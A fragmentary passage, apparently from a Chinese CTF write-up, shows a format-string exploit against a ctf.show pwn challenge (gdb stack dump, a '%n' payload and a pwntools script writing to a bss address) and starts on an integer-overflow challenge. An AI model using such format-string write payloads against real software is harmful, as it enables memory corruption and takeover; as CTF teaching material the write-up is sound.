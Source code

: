 ```c
}
```



The 

print 16 chars to bss address 0x0804A030 [10]

0x0804A030AAAAAA%n



```
gdb-peda$ x/50w 0xffffcf9c
0xffffcf9c:	0x080485d5	0xffffcfbc	0xffffcfbc	0x00000002
0xffffcfac:	0x00000000	0xffffcfde	0xffffd0dc	0x000000e0
0xffffcfbc:	0x70257025	0x70257025	0x70257025	0x70257025
0xffffcfcc:	0x70257025	0x70257025	0x70257025	0x70257025
0xffffcfdc:	0x70257025	0x70257025	0x70257025	0x70257025
0xffffcfec:	0x70257025	0x70257025	0x70257025	0x70257025
0xffffcffc:	0x70257025	0x00007025	0x00000000	0xffffd0dc
0xffffd00c:	0x0804866b	0x00000001	0xffffd0d4	0xffffd0dc
0xffffd01c:	0x08048641	0xffffd040	0x00000000	0x00000000
0xffffd02c:	0xf7e1b647	0xf7fb6000	0xf7fb6000	0x00000000
0xffffd03c:	0xf7e1b647	0x00000001	0xffffd0d4	0xffffd0dc
0xffffd04c:	0x00000000	0x00000000	0x00000000	0xf7fb6000
0xffffd05c:	0xf7ffdc04	0xf7ffd000
```



```python
from pwn import *

r=remote("pwn.challenge.ctf.show",28103)

num_addr=0x0804A030 #4byte
payload=p32(num_addr)+"%12d%7$n"
r.sendline(payload)
r.interactive()

```



## 数学99: Integer Overflow[不董]



```python
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  alarm(0x3Cu);
  setvbuf(stdout, 0LL, 2, 0LL);
  puts("CTFshow pwn2");
  puts("Can you help me to solve some eazy math problem?");
  if ( (unsigned int)sub_9C0() && (unsigned int)sub_AEE() && (unsigned int)sub_BA3() )
    puts("That's impossible!");
  else
    puts("Baka!");
  return 0LL;
}
```
